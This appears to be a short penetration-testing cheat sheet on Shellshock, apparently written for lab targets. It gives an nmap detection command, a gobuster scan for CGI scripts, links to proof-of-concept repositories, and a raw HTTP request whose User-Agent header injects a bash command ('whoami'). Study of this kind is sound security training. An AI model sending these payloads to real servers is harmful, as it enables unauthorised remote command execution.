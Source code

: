 # Shellshock
------

Checking using nmap:
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

Manual checks:
https://github.com/mubix/shellshocker-pocs
https://github.com/opsxcq/exploit-CVE-2014-6271

Check if /cgi-bin/ is accessible, even if the page returns forbidden error and we don't have the permission to access.

Run gobuster:
```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x sh,php,pl,html,txt

/user.sh
```

Once found, use payloads in HTTP Requests:
```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Checking for shellshock using shellshocker:
https://github.com/AlmCo/Shellshocker
```bash
python3 shellshocker.py http://10.10.10.56/cgi-bin/user.sh
```
Not as reliable.
